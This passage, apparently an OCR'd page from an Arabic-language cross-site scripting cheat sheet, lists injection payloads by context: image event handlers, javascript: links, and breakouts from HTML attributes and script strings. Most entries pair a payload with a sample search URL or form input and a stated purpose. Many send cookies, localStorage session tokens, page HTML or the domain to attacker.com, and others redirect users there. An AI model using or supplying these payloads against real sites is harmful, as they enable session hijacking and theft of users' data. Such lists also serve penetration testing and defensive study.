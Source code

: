   - **الإدخال**: `https://example.com/search?q=<img src=x onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">`
  - **كيف يعمل**: يرسل رمز الجلسة عند تمرير المؤشر.
  - **متى يُستخدم؟**: لتتبع التفاعل.
- **الحقن**: `<img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">`
  - **الإدخال**: أدخل في حقل نموذج: `<img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">`
  - **كيف يعمل**: يرسل محتوى الصفحة عند تحميل الصورة.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.

#### ج. حقن باستخدام روابط JavaScript
{  #ideas_for_url }
استخدام بروتوكول `javascript:` في روابط أو سمات.
- **الحقن**: `<a href="javascript:alert('XSS')">Click</a>`
  - **الإدخال**: `https://example.com/search?q=<a href="javascript:alert('XSS')">Click</a>`
  - **كيف يعمل**: ينفذ تنبيهًا عند النقر على الرابط.
  - **متى يُستخدم؟**: لتأكيد الثغرة عند التفاعل.
- **الحقن**: `<a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>`
  - **الإدخال**: `https://example.com/search?q=<a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند النقر.
  - **متى يُستخدم؟**: لسرقة البيانات عند التفاعل.
- **الحقن**: `<a href="javascript:document.location='http://attacker.com'">Click</a>`
  - **الإدخال**: `https://example.com/search?q=<a href="javascript:document.location='http://attacker.com'">Click</a>`
  - **كيف يعمل**: يعيد توجيه المستخدم عند النقر.
  - **متى يُستخدم؟**: لإعادة التوجيه.
- **الحقن**: `<a href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a>`
  - **الإدخال**: أدخل في حقل نموذج: `<a href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a>`
  - **كيف يعمل**: يرسل النطاق عند النقر.
  - **متى يُستخدم؟**: لتأكيد سياق التنفيذ.
- **الحقن**: `<a href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a>`
  - **الإدخال**: `https://example.com/search?q=<a href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a>`
  - **كيف يعمل**: يرسل رمز الجلسة عند النقر.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.

#### د. حقن داخل سمات أو JavaScript
{ #ideas_for_url /  #Inline_HTML_Injection}
إدراج شيفرة في سياقات سمات HTML أو JavaScript.
- **الحقن**: `" onfocus="alert('XSS')`
  - **الإدخال**: `https://example.com/search?q=" onfocus="alert('XSS')`
  - **كيف يعمل**: ينفذ تنبيهًا إذا أُدرج في سمة مثل `<input value="...">`.
  - **متى يُستخدم؟**: لاستهداف السمات.
- **الحقن**: `" onload="fetch('http://attacker.com/log?c='+document.cookie)`
  - **الإدخال**: `https://example.com/search?q=" onload="fetch('http://attacker.com/log?c='+document.cookie)`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إذا أُدرج في سمة حدث.
  - **متى يُستخدم؟**: لاستهداف أحداث السمات.
- **الحقن**: `";alert('XSS');//`
  - **الإدخال**: `https://example.com/search?q=";alert('XSS');//`
  - **كيف يعمل**: ينفذ تنبيهًا إذا أُدرج في سياق JavaScript مثل `<script>var x="...";`.
  - **متى يُستخدم؟**: لاستهداف JavaScript.
- **الحقن**: `";fetch('http://attacker.com/log?c='+document.cookie);//`
  - **الإدخال**: `https://example.com/search?q=";fetch('http://attacker.com/log?c='+document.cookie);//`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط في سياق JavaScript.
  - **متى يُستخدم؟**: لسرقة البيانات في JavaScript.
- **الحقن**: `" onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')`
